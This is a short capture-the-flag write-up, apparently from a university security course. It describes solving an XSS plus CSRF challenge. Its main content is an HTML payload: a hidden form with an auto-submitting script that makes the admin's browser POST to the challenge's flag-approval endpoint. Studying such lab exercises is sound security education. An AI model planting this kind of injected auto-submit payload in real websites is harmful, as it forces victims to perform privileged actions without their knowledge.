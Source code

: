 # XSS + CSRF

## Exploration

The website allows us to submit a message that will be displayed in another page.

![img](../images/image-6-1.png)

We also know that the admin has to go to the Request Page to check the message and go to the Admin Page and click the "Give the Flag" button.

## Execution

Therefore, we need to input a script through the submit page that:

- Creates a POST request similar to the "Give the Flag" button one.
- When the Request Page is loaded, the POST request is made. 

```html
<form id="hacked" method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/f31f56d274a458955be9645f0237b84c8ef94db8/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" enabled>
        
    </div>
</form>
<script>
    document.getElementById("hacked").submit();
</script>
```
Because our submit button immediately redirects us to a forbidden page that we do not have permission to, we have to stop that redirecting script from running. Therefore, we have to turn off our browser's javascript functionality.

![img](../images/image-6-2.png)

Now the redirecting script is not running so we don't go to the forbidden page anymore.

![img](../images/image-6-3.png)

We now click the `page` reference to go to the admin page and then click the `here` reference within that page.

![img](../images/image-6-4.png)

We can now see the flag!